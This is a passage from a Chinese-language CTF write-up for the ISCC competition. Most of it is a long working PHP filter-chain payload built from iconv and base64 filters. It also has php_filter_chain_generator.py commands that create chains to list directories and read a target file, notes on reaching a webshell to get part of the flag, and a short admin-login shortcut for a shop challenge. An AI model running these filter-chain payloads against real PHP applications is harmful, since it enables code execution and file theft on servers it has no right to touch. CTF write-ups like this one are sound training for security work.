ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp');
```



但是并没有成功，原来题目没开FFI，🤡，更加小丑的是，远程环境居然可以直接连接木马，直接插件绕过了，🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡🤡，在当前目录拿到flag的后一段`I&x%Its~7xy'Ib~sIaV''ek`，进行异或即可，我们看一段flag知道要异或，但是ISCC这个比赛很抽象，直接批量异或


也可以利用php里面的一些函数

```
python3 php_filter_chain_generator.py --chain '<?php print_r(scandir("./"));?>'
python3 php_filter_chain_generator.py --chain '<?php print_r(glob("*"));?>'
python3 php_filter_chain_generator.py --chain '<?php readfile("c3933845e2b7d466a9776a84288b8d86.php");?>'
```



但是这里只需要列出目录其实就可以了，这题受到SU的哥哥们很多帮助！

## ISCC购物中心

蹭车的`1\1`进后台直接买flag就好了，拿到字符串直接异或


